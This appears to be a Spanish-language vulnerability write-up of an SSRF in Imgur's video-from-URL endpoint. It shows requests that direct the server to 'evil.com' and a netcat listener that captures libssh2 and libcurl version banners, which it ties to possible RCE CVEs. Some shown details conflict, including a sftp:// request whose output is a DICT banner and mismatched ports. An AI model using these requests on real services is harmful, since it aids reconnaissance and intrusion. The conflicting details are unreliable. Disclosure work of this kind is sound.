 ### __¿Cuales son los protocolos explotables?__

Aparentemente, Imgur realiza conexiones a través de los siguientes protocolos:

- SSH (scp://, sftp://)
- POP3
- IMAP
- SMTP
- FTP
- DICT
- GOPHER
- TFTP

Varios filtran información sobre la infraestructura de imgur (SSH, DICT), otros permiten exploits más serios (TFTP, DICT, GOPHER).

### __Explotación simple - information disclosure via SSRF__

Imgur filtra información sobre las versiones de software instaladas a través de los protocolos SSH y DICT. Un atacante puede configurar un servidor `netcat` y obligar a los servidores Imgur a conectarse a él y filtrar información de la versión a través de una cadena de conexión, por ejemplo:

Request:  https://imgur.com/vidgif/url?url=sftp://evil.com:11111/

```
evil.com:$ nc -lvp 11111
Connection from [IP] port 443 [tcp/*] accepted (family 2, sport 36136)
SSH-2.0-libssh2_1.4.2
```

Request: https://imgur.com/vidgif/url?url=sftp://evil.com:11111/

```
evil.com:$ nc -lvp 11111
Listening on [0.0.0.0] (family 0, port 443)
Connection from [54.166.236.232] port 443 [tcp/*] accepted (family 2, sport 35789)
CLIENT libcurl 7.40.0

QUIT
```
De esta manera, un atacante puede descubrir versiones de software de imgur: libssh2 1.4.2 (probablemente vulnerable a CVE-2015-1782) y libcurl 7.40.0 (probablemente vulnerable a CVE-2015-3144, CVE-2015-3237). Todos son probables RCE.




